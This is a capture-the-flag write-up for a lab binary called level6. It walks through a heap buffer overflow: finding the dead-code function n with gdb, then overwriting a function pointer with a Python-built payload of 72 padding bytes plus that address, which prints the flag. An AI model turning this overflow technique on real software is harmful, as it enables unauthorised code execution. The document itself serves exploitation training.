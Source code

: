 ### Download binary
``scp -P4242 level6@192.168.31.170:/home/user/level6/level6 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

In this exercices we got a buffer overflow but on the heap, not on the stack. This exercice is pretty straightforward. The goal is to overwrite a function pointer that is called later on with another function pointer that contain our exploit. There is **dead code** that do exactly that, we just have to find what is it adress.

### Building the payload

We want to build this payload :
**64 char to overflow + n ADRESS**

**Getting the n function adress :**
``(gdb) info functions``
>[...]
0x08048454  n

Next, we build our payload. The only thing we need to take care of is a little offset. Typically, we should put 64 bytes of garbage to overflow, but actually, we put 72 because the system's memory alignment adds 8 bytes between each of the variables in the heap. This is due to how the system optimizes memory allocation - aligning data to certain boundaries (like multiples of 4 or 8 bytes).

Our final payload is :

``./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')``

----

#### Getting the flag

``./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')``
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
